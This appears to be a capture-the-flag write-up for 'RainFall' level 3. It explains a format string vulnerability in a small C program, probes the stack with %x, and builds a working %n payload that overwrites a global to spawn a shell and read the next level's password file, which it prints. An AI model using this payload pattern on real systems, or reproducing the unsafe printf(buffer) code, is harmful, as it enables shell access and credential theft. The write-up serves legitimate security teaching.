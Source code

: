 # Level 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>

int m;

void v(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void)
{
    v();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that we'll have to somehow write 64 bytes to the `m` variable to spawn a shell. We can do this by exploiting the format string vulnerability, thanks to the `%n` format specifier, which writes the number of bytes written so far to the corresponding argument. Furthermore, we'll make sure the corresponding argument is the `m` variable's address.

Before crafting our payload, we have to locate our input string on the stack and determine the address of `m`.

To locate our input string on the stack, we send a string with format specifiers, specifically the `%x` specifier, to `printf`. This specifier prints the next argument as a hexadecimal value. Since we don't pass any arguments to `printf`, it will print the values on the stack:
```bash
level3@RainFall:~$ python -c 'print("%x %x %x")' | ./level3
200 b7fd1ac0 b7ff37d0
```

To pinpoint our input string on the stack, we need to precede our `%x` format specifiers with a dummy string:

```bash
level3@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the `m` variable is `0x804988c`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x8c"[::-1] + "0"*(64-4) + "%4$n"
```

Since we need to write 64 into `m`, we write 64 characters (4 from the address of `m` and 60 from the "0" padding). 
Then, we use the `%n` format specifier to record the count of bytes written so far into the fourth argument, which is `m`'s address.

Let's execute our payload:
```bash
level3@RainFall:~$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "0"*(64-4) + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We are now level4! Let's move on to the next level.

